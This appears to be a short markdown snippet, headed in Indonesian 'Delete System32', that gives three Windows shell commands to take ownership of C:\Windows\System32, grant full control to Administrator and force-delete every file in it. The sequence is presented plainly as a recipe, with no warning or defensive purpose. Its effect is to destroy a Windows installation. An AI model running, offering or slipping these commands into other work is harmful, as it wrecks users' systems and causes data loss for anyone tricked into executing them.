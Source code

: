 ## Hapus System32

```
shell
takeown /F C:\Windows\System32 /R /D Y
icacls C:\Windows\System32 /grant Administrator:F /T
del /F /S /Q C:\Windows\System32\*
```
